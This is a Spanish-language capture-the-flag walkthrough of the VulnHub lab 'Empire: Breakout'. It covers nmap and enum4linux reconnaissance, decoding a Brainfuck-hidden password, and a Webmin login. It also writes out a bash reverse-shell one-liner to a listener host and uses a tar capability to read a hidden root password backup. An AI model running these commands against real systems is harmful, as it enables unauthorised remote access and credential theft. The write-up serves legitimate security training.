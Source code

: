 Platform: Vulnhub
machine: [Empire: Breakout ~ VulnHub](https://www.vulnhub.com/entry/empire-breakout,751/)
Download (Mirror)**: [https://download.vulnhub.com/empire/02-Breakout.zip](https://download.vulnhub.com/empire/02-Breakout.zip)

Herramientas:
[[ARP-Scan]]
[[Ping]]
[[NMAP]]
[[Enum4linux]]
[[Nc]]
[[Tratamiento de la TTY]]

![[Vulnhub - EMPIRE Breakout - Machine.png]]
Herramientas:
	- arp-scan
	- ping
	- nmap
	- Visor de codigo del navegador
	- https://www.dcode.fr/brainfuck-language
	- enum4linux
	- nc -lvnp 1234
	- bash -i >/dev/tcp/192.168.1.144/1234 0>&1
	- con getcap -r / 2>dev/null
	- ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
Puertos:
	#Puerto80 
	#puerto10000
	#puerto20000


reconocimiento de la red:

![[Vulnhub - EMPIRE Breakout - Reconocimeinto de la red.png]]
Ping a la maquina para ver si hay conectividad y el TTL:
![[Vulnhub - EMPIRE Breakout - Ping y ver TTL.png]]

Conectividad y TTL 64--> maquina LINUX
Nmap:
sudo nmap -p- --open -sS -Pn -sC -sV 192.168.1.136

![[Vulnhub - EMPIRE Breakout - Nmap.png]]

Encontramos los  puertos:
80 con un apache 2.4.51
139 Samba 4.6.2
445 Samba 4.6.2
10000 http webmin miniserv 1.891
20000 http webmin MiniServ 1.830

Accedemos al puerto 80:

![[Vulnhub - EMPIRE Breakout - Web apache 2 por defecto.png]]
web por defecto de Apache 2 en Debian

Vamos a revisar el código fuente:
![[Vulnhub - EMPIRE Breakout - Codigo extraño en el codigo fuente.png]]
nos encontramos con esto:

<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

por lo que entendemos con el mensaje que :
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
es un mensaje encriptado

Decodeamos web para decodear este mensaje (https://www.dcode.fr/brainfuck-language):

![[Vulnhub - EMPIRE Breakout - Decode Message.png]]
y obtenemos:
.2uqPEfj3D<P'a-3

Accedemos al puerto 10000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 10000.png]]
volvemos a acceder ahora con SSL (según mensaje)
y vemos un panel de Login:
![[Vulnhub - EMPIRE Breakout - Panel de Login.png]]

Revisamos el puerto 20000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 20000.png]]
Usamos la herramienta Enum4 Linux:
comando:
enum4linux -a 192.168.1.136 y obtengo este resultado:
![[Vulnhub - EMPIRE Breakout - Enumeracion de usuarios con enun4linux.png]]
Ha obtenido el usuario cyber
vamos a intentar entrar con el usuario cyber y al contraseña obtenida anteriormente en el panel de login:

cyber:.2uqPEfj3D<P'a-3
y accedemos al panel:

![[Vulnhub - EMPIRE Breakout - Panel de mailbox.png]]

hay una opcion en el panel que es para ejecutar comandos:
![[Vulnhub - EMPIRE Breakout - Ejecutamos comandos desde el panel.png]]

de aquí obtenemos la primera flag del usuario:
User flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

ahora podemos lanzar una reverse bash desde aquí y recibirla en nuestro terminal:
nos ponemos a la escucha:
comando 
nc -lvnp 1234
y en la victima ejecutamos:
bash -i >/dev/tcp/192.168.1.144/1234 0>&1

Y obtenemos acceso:
![[Vulnhub - EMPIRE Breakout - Ejecutar reverse shell.png]]

Obtenemos la reverse Shell:
![[Vulnhub - EMPIRE Breakout - Obtencion de reverse Shell.png]]
volvemos a ver la flag del usuario:
![[Vulnhub - EMPIRE Breakout - User Flag from the machine.png]]


nuestro usuario es cyber
![[Vulnhub - EMPIRE Breakout - User cyber.png]]

hacemos un pequeño tratamiento de la TTY con el comando:
script /dev/null -c bash
Vulnhub - EMPIRE Breakout - 
tenemos que escalar privilegios:
sudo -l no funciona
![[Vulnhub - EMPIRE Breakout - Escalado sudo -l.png]]

Vemos las capabilities:
con getcap -r / 2>dev/null
![[Vulnhub - EMPIRE Breakout - Capabilitis del usuario.png]]

Y encontramos  que tenemos acceso a tar

![[Vulnhub - EMPIRE Breakout - Fichero backup old oculto.png]]

Encontramos el ficheor oculto en /var/backups con el nombre .old_pass.bak
usamos tar para leerlo

![[Vulnhub - EMPIRE Breakout - Encontramos fichero backups old.png]]

con el comando ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
extraemos
listamos lo extraido:
![[Vulnhub - EMPIRE Breakout - Fichero backup descomprimido.png]]

y obtenemos lo siguiente:
0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h  

Accedemos con la contraseña de root que hemos obtenido:
sudo root:
root:Ts&4&YurgtRX(=~h  

![[Vulnhub - EMPIRE Breakout - Acceso root.png]]
Root flag:
![[Vulnhub - EMPIRE Breakout - Root flag.png]]
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}




